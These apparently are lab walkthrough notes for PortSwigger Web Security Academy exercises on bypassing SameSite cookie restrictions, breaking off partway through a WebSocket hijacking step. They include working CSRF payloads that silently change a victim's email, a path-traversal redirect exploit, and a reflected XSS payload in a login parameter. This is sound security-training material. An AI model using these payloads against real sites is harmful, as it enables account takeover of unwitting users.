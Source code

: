 5. Host the following malicious page
```html
<html>
	<body>
		<form action="https://0ad6009f0363761a805c03900006009c.web-security-academy.net/my-account/change-email" method="GET">
			<input type="hidden" name="_method" value="POST"> <input type="hidden" name="email" value="pwned@hacked.lol">
		</form>
		<script>
			document.forms[0].submit();
		</script>
	<body>
</html>
```
- Will issue a GET request and "override" as a POST method using `_method`
# SameSite Strict bypass via client-side redirect
1. Login > Change email
2. GET method is supported
3. View a blog item and post a comment
4. On the comment confirmation page we get redirected after a short period
5. Look in Burp history and see the following JavaScript being used
```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
- This JavaScript is taking the value of the `postId` parameter and setting it in the URL
6. Send the comment confirmation page to repeater and test the `postId` parameter and see the value is inserted in to `href` attribute in the HTML response
7. Using this information and knowing that GET requests can be used to change the email of a target account, construct the following exploit
```html
<script>
document.location = "https://0ae5001d03e5f72b8107701600a50085.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=pwned%40hacked.lol%26submit=1"
</script>
```
# SameSite Strict bypass via sibling domain
1. Navigate target page
2. Request to `/resources/js/chat.js` reveals an origin server in the HTTP response
	1. `Access-Control-Allow-Origin: https://cms-0ad4003e04b75aba806603d5002e00f1.web-security-academy.net`
3. Access this URL reveals a login page
4. Username parameter is vulnerable to reflected XSS. This attack can also be performed as a GET request
	1. `GET /login?username=admin<script>alert(document.domain)</script>&password=admin`
5. Navigate to live chat feature, identify that it opens a WebSocket connection
6. Analyse the WebSocket handshake and see that there are no CSRF protections (except that the cookie is SameSite)
7. Clone the connection and make a new WebSocket
	1. Change the `Origin:` to something arbitrary and confirm that the request opens a new WebSocket connection
```HTTP
GET /chat HTTP/1.1
Host: 0ad4003e04b75aba806603d5002e00f1.web-security-academy.net
Connection: Upgrade
Upgrade: websocket
```